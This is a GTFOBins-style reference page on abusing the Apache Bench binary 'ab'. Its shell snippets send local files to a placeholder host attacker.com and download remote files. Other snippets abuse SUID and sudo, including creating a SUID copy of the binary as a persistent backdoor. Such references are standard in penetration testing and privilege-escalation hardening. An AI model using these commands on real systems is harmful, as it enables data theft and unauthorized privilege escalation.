 ```yaml
---
title: "ab"
author: GTFObins
date: 1970-01-01
categories: Tips
series: GTFObins
tags: ["file upload","file download",suid,sudo]
toc: false
---
```


# File upload

It can exfiltrate files on the network.

Upload local file via HTTP POST request.

```bash
URL=http://attacker.com/
LFILE=file_to_send
ab -p $LFILE $URL
```

# File download

It can download remote files.

Fetch a remote file via HTTP GET request. The response is returned as part of the verbose output of the program with some limitations on the length.

```bash
URL=http://attacker.com/file_to_download
ab -v2 $URL
```

# SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

Upload local file via HTTP POST request.

```bash
sudo install -m =xs $(which ab) .

URL=http://attacker.com/
LFILE=file_to_send
./ab -p $LFILE $URL
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Upload local file via HTTP POST request.

```bash
URL=http://attacker.com/
LFILE=file_to_send
sudo ab -p $LFILE $URL
```
